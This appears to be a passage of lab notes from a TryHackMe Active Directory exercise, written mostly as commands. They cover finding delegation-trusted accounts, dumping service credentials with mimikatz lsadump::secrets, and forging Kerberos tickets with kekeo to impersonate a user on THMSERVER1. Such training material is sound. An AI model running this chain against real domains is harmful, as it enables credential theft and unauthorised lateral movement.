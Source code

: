 # Change the password
`$password = 'strong.pass1' | ConvertTo-SecureString -AsPlainText -Force
Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password`

**If you get an access denied error, your membership of the IT Support group have not fully replicated through the network yet. Try running gpupdate /force or wait a few minutes and try again.**

## Kerberos unconstrained delegation computers
# Enumeration for delegation(AD-RSAT)
`Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description`

# Powerview find for delegations
`Import-Module C:\Tools\PowerView.ps1 `
`Get-NetUser -TrustedToAuth` *full enumeration! userprincipalname: (the service), msds-allowedtodelegateto: (the services it can delegate)*

# Check for if potential service exists so we can dump cred later on 
`Get-CimInstance -ClassName Win32_Service | Where-Object {$_.StartName -like 'svcIIS*'} | Select-Object *`**

# MIMIKATZ: Dump clear text credentials (for services)from registry
`mimikatz # token::elevate`*Elevate System privs*
`mimikatz # lsadump::secrets`*Dump clear text cred from registry for features such as Windows services*
`mimikatz # token::revert`*revert the priv*

# kekeo: Generate TGT for services
`tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted`
*user - The user who has the constrained delegation permissions.
domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
password - The password associated with the svcIIS account.*


# kekeo: Generate TGS (for both services)
`tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http`
`tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
